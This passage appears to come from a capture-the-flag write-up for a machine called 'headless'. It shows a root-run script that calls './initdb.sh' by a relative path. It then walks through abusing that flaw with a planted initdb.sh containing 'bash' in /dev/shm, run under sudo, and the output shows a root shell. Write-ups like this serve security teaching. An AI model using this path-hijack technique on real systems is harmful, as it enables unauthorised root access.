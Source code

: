 Now let's take a look at the `syscheck` script what it actually doing:
```bash
dvir@headless:/var/mail$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

The script checks if the `root` is running it if not it exits, Then it takes the last modified time of `vmlinuz` from `/boot` and prints it with last modified time after that it prints the output of `df -h`, Then it takes the prints the output of `uptime`. Then via `pgrep` it looks for `initdb.sh` if it doesn't finds it, it runs `./initdb.sh` otherwise it prints.

```
dvir@headless:/var/mail$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.01, 0.00
Database service is not running. Starting it...
```
So the thing here is that it doesn't uses an abouslute for `initdb.sh` which means it's running from the directory where you running the `syscheck` script.

### Exploiting the script

Now that we know it runs `./initdb.sh` from the working directory we are in. I'll make a simple `initdb.sh` in some writeable directory such as `/dev/shm`, make it executable & run `sudo syscheck`.

```bash
dvir@headless:/dev/shm$ echo "bash" > initdb.sh
dvir@headless:/dev/shm$ chmod +x initdb.sh
dvir@headless:/dev/shm$ sudo syscheck
sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
id
uid=0(root) gid=0(root) groups=0(root)
```
